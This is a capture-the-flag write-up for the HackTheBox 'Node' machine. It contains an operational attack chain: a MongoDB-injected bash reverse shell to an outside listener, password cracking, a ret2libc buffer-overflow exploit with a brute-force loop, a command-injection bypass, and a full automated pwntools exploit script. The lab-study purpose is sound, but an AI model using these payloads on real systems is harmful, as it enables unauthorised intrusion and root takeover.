

This box was an medium box from HackTheBox. It's OS is Linux and the entry point is with Web App. We found an API which is giving us a password. We login with a ssh session in it and see that we can set scheduler to the mongodb proccess, which is running as other user. After get a shell for this user, we found a binary running as root. We perform a ret2libc exploitation in it and get root access!

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.58
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 3000

On port 3000 we found a web page


It's running [express](https://expressjs.com/), we see on burp the js files being loaded.


We could see the admin.js file


We see the profile.js too, and very interesting how it handles the request


```
$http.get('/api/users/' + $routeParams.username)
```

We makes a get request to /api/users to authenticated some user

So, if we access it we get some creds


And googling it we see that this password is manchester


`myP14ceAdm1nAcc0uNT:manchester`

## Login Page

Now we can just login on /login page


We get an option to download a backup file


It seems to be a big base64 file


We decode it and get a zip file


But it has password, so we use `fcrackzip` to get it

```sh
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace.zip
```


And the password is `magicword`

We unzip it and seems to be the source code of the app


On the file `app.js` we find something interesting


Creds!

`mark:5AYRft73VtFpc84k`

Now, we ssh in


Let's begin our first privilege escalation

# mark --> tom

We enter as mark on the box but we did not find any flag. We take a look at the /home folder and see other user in it, tom and frank, our next goal is to get tom shell


We see that we have the scheduler running as tom

```sh
ps auxww | grep node
```


The main thing we should take a look here in the exec function

```js
exec(doc.cmd);
```

If we are able to put contents in this doc.cmd param, we will be able to execute commands on the server

We'll use the scheduler to put colletions on the database, and with that in mind execute commands as tom

```sh
mongo -u mark -p 5AYRft73VtFpc84k scheduler
db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.3/5588 0>&1'"})
db.tasks.find()
```

And after few seconds, we got the shell back as tom


# tom --> root

Now, let' become root on this box

We ran [linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh) to find points to escalate privileges


We found an unknown binary running as root


We get it in our kali box


## Binary Recon

We try to see what this binary does


Seems that we need to have some kind of word to make it execute

We run `ltrace ./backup a b c` and we see that the first argument must be `-q`


And get the keys from `/etc/myplace/keys`


We see that we really have keys there


```
a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508
45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474
3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110
```

Now, let's try to run again with a valid key


It seems to be a base64 file. And it really is, a zip file with password


We unzip it with the same password we used before `magicword`

Weird, because the try to read the `/etc/passwd` file, but it comes the root.txt file with a troll face


Running the ltrace we see where the filter is catching us


It makes a loot of checks, and if one of them matches, it show us the troll face, we could bypass it easly with a wildchar

This way for example we can get the root flag

```sh
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "/r???/r???.txt"
```

## Getting BOF

Lookin better on the `ltrace` output. We can notice a good thing when facing the **strcp** function


For example here. It gets what I pass on the third parameter and make the comparison, without a lenght limit of the param. So, we probably have a BOF in this param! Let's try it out!

```sh
./backup -q a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508 $(python -c 'print "A"*2000')
```

Cool! Here we got, we have a Buffer Overflow in this param.


Ok, now we should try this Buffer Overflow in different ways

### Buffer Overflow (ret2libc)

The first techinique we'll use is the ret2libc

First we need to see what kind of securities are enabled in this binary.

```sh
checksec backup
```


Ok, we have NX-Enabled, unfortunatelly we could not execute code right on the stack. Let's see now if the ASLR is enabled

```sh
cat /proc/sys/kernel/randomize_va_space
```


For this box we'll need to bruteforce the libc. It means that each time the libc will be loaded in different points of the memory, as you can see now

```sh
ldd /usr/local/bin/backup | grep libc.so.6
```


With that in mind, let's open the binary on the `gdb` to see where the overflow happens which is the poing we could overwrite the EIP, EIP is the registrer which aims to the next address to be executed. If we can control it, we can control the flow of execution, making it execute commands as we want, commands on the libc.

We create a pattern of 600 chars. Now we send to the app this pattern

```sh
pattern create 600
r a a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaaf
```


We see that the EIP overflow at `daaf`


So, let's see exactly here it matches

```
pattern offset daaf
```


We test it with a python echo

```sh
r a a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508 $(python -c 'print "A"*512 + "B"*4')
```

And we get it, it's on 512


Sure, now we could start building our exploit for this binary. We already now the exact point of crash. Now we must know the base address of the libc, for that we use the ldd command. We know that it vary, so we'll need to do a sort of bruteforce in it.

```sh
ldd /usr/local/bin/backup | grep libc.so.6
```


For now, we'll use this one

**0xf7563000**

auto_pwn_node.py

```py
from subprocess import call
import struct

libc_base_addr = 0xf7563000
```

Now, we must mount its structure. What we want it to do? We want a call to system(), with a /bin/sh and after exit. So, let's get these address on the libc to execute this commands

```sh
readelf -s /lib32/libc.so.6 | grep system
strings -a -t x /lib32/libc.so.6 | grep /bin/sh
readelf -s /lib32/libc.so.6 | grep exit
```


Ok, we have all of them that we need

auto_pwn_node.py

```py
from subprocess import call
import struct

libc_base_addr = 0xf7563000

system_off      = 0x0003a940
exit_off        = 0x0002e7d0
arg_off         = 0x0015900b
```

Now, what we do? The ideia here is to make the libc base adddress be added on the extracted address. The memory address are loaded from the libc, the script will make this add. This struct.pack is part of a python library called struct, which is used for this case of binary exploitation (`<I` means little endian)

auto_pwn_node.py

```py
from subprocess import call
import struct

libc_base_addr = 0xf7563000

system_off      = 0x0003a940
exit_off        = 0x0002e7d0
arg_off         = 0x0015900b

system_addr = struct.pack("<I",libc_base_addr+system_off)
exit_addr = struct.pack("<I",libc_base_addr+exit_off)
arg_addr = struct.pack("<I",libc_base_addr+arg_off)

buf = "A" * 512
buf += system_addr
buf += exit_addr
buf += arg_addr
```

Now just make a loop to iterate many times in it. That's because of the ASLR, which is enabled on the box. The libc address will be loaded in different places each execution.

auto_pwn_node.py

```py
from subprocess import call
import struct

libc_base_addr = 0xf7563000

system_off      = 0x0003a940
exit_off        = 0x0002e7d0
arg_off         = 0x0015900b

system_addr = struct.pack("<I",libc_base_addr+system_off)
exit_addr = struct.pack("<I",libc_base_addr+exit_off)
arg_addr = struct.pack("<I",libc_base_addr+arg_off)

buf = "A" * 512
buf += system_addr
buf += exit_addr
buf += arg_addr

i = 0
while (i < 512):
        print "Try %s" %i
        i += 1
        ret = call(["/usr/local/bin/backup","-q","45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474",buf])
```

And we execute it, and get a the root shell


### Command Line Injection

We can send a command line injection with a shell command too, once we know that it's executing bash as root

```sh
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "$(printf '\n/bin/sh\necho OK')"
```


Now let's easily automate it

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_pwn_node.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# AutoPwn for Node - HackTheBox

from pwn import *
import argparse
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Login SSH as Mark and add reverse mongodb shell
def LoginMark(lhost,lport,rhost):
	rport = 22
	mark_shell = ssh(host=rhost, port=rport, user='mark', password='5AYRft73VtFpc84k')
	# Add reverse shell task to mongodb 
	mongodb = mark_shell.run("mongo -u mark -p 5AYRft73VtFpc84k scheduler")
	mongodb.sendline("db.tasks.insertOne({\"cmd\": \"bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'\"});" %(lhost,lport))

# Get reverse from Tom
def LoginTom(lport):
	tom_shell = listen(lport).wait_for_connection()
	tom_shell.clean(0)
	tom_shell.send("/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 \"$(printf '\n/bin/sh\necho OK')\"")
	tom_shell.send("\n")
	tom_shell.interactive()

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--localport', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport
    
    '''Here we call the functions'''
    # Login SSH as Mark and add the reverse shell mongo
    LoginMark(lhost,lport,rhost)
    # Wait the shell from Tom
    LoginTom(lport)
    
if __name__ == '__main__':
    main()
```